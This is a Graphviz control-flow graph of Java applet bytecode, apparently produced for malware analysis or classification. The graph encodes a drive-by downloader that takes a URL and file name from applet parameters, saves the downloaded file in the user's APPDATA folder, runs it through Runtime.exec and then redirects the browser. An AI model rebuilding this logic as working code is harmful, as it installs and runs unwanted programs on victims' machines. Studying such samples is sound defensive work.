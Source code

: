 digraph "" {
    "r0 := @this: Java"
    "load.r r0"
    "r0 := @this: Java"->"load.r r0";
    "push \"file\""
    "load.r r0"->"push \"file\"";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"
    "push \"file\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "store.r r1"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r1";
    "push \"APPDATA\""
    "store.r r1"->"push \"APPDATA\"";
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"
    "push \"APPDATA\""->"staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>";
    "store.r r2"
    "staticinvoke <java.lang.System: java.lang.String getenv(java.lang.String)>"->"store.r r2";
    "store.r r2"->"load.r r0";
    "push \"r\""
    "load.r r0"->"push \"r\"";
    "push \"r\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "store.r r25"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r25";
    "push 1024"
    "store.r r25"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "store.r r3"
    "newarray"->"store.r r3";
    "new java.io.FileOutputStream"
    "store.r r3"->"new java.io.FileOutputStream";
    "store.r $r8"
    "new java.io.FileOutputStream"->"store.r $r8";
    "load.r $r8"
    "store.r $r8"->"load.r $r8";
    "new java.lang.StringBuilder"
    "load.r $r8"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r2"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r2";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "load.r r2"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r1"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "new java.net.URL"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"lol\""
    "load.r r0"->"push \"lol\"";
    "push \"lol\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "store.r r6"
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r6";
    "load.r r6"
    "store.r r6"->"load.r r6";
    "load.r r3"
    "load.r r6"->"load.r r3";
    "push 0"
    "load.r r3"->"push 0";
    "push 0"->"load.r r3";
    "arraylength"
    "load.r r3"->"arraylength";
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"
    "arraylength"->"virtualinvoke <java.io.InputStream: int read(byte[],int,int)>";
    "store.i $i2"
    "virtualinvoke <java.io.InputStream: int read(byte[],int,int)>"->"store.i $i2";
    "load.i $i2"
    "store.i $i2"->"load.i $i2";
    "push -1"
    "load.i $i2"->"push -1";
    "ifcmpeq.i load.r r6"
    "push -1"->"ifcmpeq.i load.r r6";
    "ifcmpeq.i load.r r6"->"load.r $r8";
    "load.r $r8"->"load.r r3";
    "load.r r3"->"push 0";
    "push 0"->"load.i $i2";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i $i2"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "goto load.r r6"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"goto load.r r6";
    "store.r r0"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "ifcmpeq.i load.r r6"->"load.r r6";
    "virtualinvoke <java.io.InputStream: void close()>"
    "load.r r6"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r8";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r8"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r2";
    "load.r r2"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "pop"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "load.r r25"
    "dup1.r"->"load.r r25";
    "checkcast"
    "load.r r25"->"checkcast";
    "checkcast"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"checkcast";
    "checkcast"->"store.r r1";
    "store.r r1"->"load.r r0";
    "virtualinvoke <Java: java.applet.AppletContext getAppletContext()>"
    "load.r r0"->"virtualinvoke <Java: java.applet.AppletContext getAppletContext()>";
    "virtualinvoke <Java: java.applet.AppletContext getAppletContext()>"->"load.r r1";
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"
    "load.r r1"->"interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1";
    "goto return"
    "interfaceinvoke <java.applet.AppletContext: void showDocument(java.net.URL)> 1"->"goto return";
    "goto return"->"return";
}

